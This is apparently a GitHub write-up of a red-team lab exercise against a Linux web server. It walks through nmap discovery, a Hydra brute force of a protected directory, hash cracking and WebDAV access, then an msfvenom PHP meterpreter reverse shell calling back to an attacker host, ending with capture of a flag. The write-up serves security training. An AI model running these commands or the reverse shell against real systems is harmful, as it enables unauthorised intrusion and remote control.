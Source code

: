 ﻿##Red Team 

###Step 1: Discovering the IP address of the linux server.

In order to find the ip address of the machine, we will need to use a network mapping tool called Nmap to scan the network. 

- Open the terminal and run: nmap 192.168.1.0/24 (We used this ip cidr range bcause our attack machine belongs to this subnetwork.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/1_nmap.jpg)

From the Nmap scan we can see that port 80 is open. Next we opened a web browser and typed the IP address of the machine into the address bar.

-Open web browser and navigate to 192.168.1.105 and press enter. 
![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/2_web_discovery.jpg)



###Step 2: Locating the hidden directory on the server.

- We navigated through different directories, we noticed reocurring messages:

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/recurring%20message.JPG)

- Upon such discovery we navigated to the directory by typing: 192.168.1.105/company_folders/secret_folder

- The directory asked us for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only"

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/ashton_eyes_only.jpg)


### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient
to use a brute force attack, specifically Hydra. 

- Using Ashton's name, run the Hydra attack against the directory: 

   - type: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/hydra_sytanx.jpg)

- The brute force attack may take some time. Once it finished, the username is ashton and the password is leopoldo.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/password_discovery.jpg)

-We went back to the web browser and used the credentiial to log in. We open the file connecting_to_webdav file.  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/14_webdav_%20access_laststeps.png)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/8a_webdav_hash.jpg)


### Step 4: Connect to the server via Webdav 

There are several ways to break the password hash. But in this intanse we avoided waiting for john to crack the password hash, we used https://crackstation.net
paste the password hash and filled out the CAPTCHA; and clicked Crack Hashes. 

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/9_password_hash_cracking.jpg)

- The password is revealed as: linux4u

### Step 5: Connecting to the server via WebDAV.

- We gained important information to make the WebDAV connection on our local attack machine. We used that information by:
	
	- We opened the file system shortcut from the desktop.
	
	- Clicked on Browse Network.

	- In the URL bar, typed: dav://192.168.1.105/webdav, and entered the credentials to log in.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)


### Step 6: Creating and Uploading a PHP reverse shell payload.

- To set up the reverse shell, run:
	- msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/13_implanting_the_reverse.jpg)

- The series of command above does the following :

	- msfconsole to launch msfconsole.

	- use exploit/multi/handler
	
	- set payload php/meterpreter/reverse_tcp

	- show options and point out they need to set the LHOST

	- set LHOST 192.168.1.90(Attacker Machine)

	- exploit  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/12_listener.jpg)

- Placed the reverse shell onto the webDAV directory

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)

- We logged back in, visited the webdav folder by navigating to 192.168.1.105/webdav. Used the credentials obtained before, user:ryan pass:linux4u

- I visited where i uploaded the reverse shell and clicked it to activate it. (If it seems like tge browser is hanging or loading, that means it has worked.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/15_activiating_the_shell.jpg)

### Step 7: Find and capture the flag. 

- on the listener, we are going to search for the file flag.txt located in the root directory. To do such i did the following:

	- Dropped a bash shell with the command: shell

	- Changed directory to the / directory: cd /

	- Searched the system for any files containing the phrase "flag" : find . -iname flag.txt

- Printed the file once i located it by: cat flag.txt

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/16_view_files.jpg)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/check_point.jpg)


